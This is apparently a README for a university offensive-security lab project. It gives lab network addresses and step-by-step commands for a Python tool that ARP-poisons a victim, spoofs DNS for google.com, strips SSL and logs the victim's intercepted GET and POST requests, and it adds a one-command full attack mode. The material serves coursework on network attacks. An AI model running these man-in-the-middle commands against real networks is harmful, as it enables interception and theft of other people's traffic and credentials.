 # 2IC80Project
Lab on Offensive Computer Security
"
### Addresses:
Attacker:
10.0.123.4  08:00:27:4f:6a:5d

Victim:
10.0.123.5  08:00:27:23:55:6e

Gateway:
10.0.123.1  52:54:00:12:35:00

### Commands:

See ARP table: `arp`
Clear ARP table: `sudo ip -s -s neigh flush all`

# Run steps separately:
1. ARP poison the victim: 
`sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "10.0.123.5" --ipToSpoof "10.0.123.1"`

3. DNS Spoof the victim: `sudo python3 main.py --interface "enp0s10" dnsSpoof --ipVictim "10.0.123.5" --siteToSpoof "google.com"` 

4. SSL Strip traffic coming from the victim: `sudo python3 main.py --interface "enp0s10" sslStrip --ipVictim "10.0.123.5" --siteToSpoof "google.com"` 

### For the forwarder to work we must first terminate the webserver that is running by default on the attacker machine.
### 1. Determine the PID of the process: sudo lsof -i :80
### 2. Kill the process: sudo kill <PID>
5. Forward `sudo python3 main.py --interface "enp0s10" forward --ipVictim "10.0.123.5" --siteToSpoof "google.com" --get_file ./get.txt --post_file ./post.txt`

# Or Run the full attack at once:
### For the forwarder to work we must first terminate the webserver that is running by default on the attacker machine.
### 1. Determine the PID of the process: sudo lsof -i :80
### 2. Kill the process: sudo kill <PID>
1. `sudo python3 main.py --interface "enp0s10" fullAttack --ipVictim "10.0.123.5" --ipGateway "10.0.123.1" --siteToSpoof "google.com" --get_file ./get.txt --post_file ./post.txt`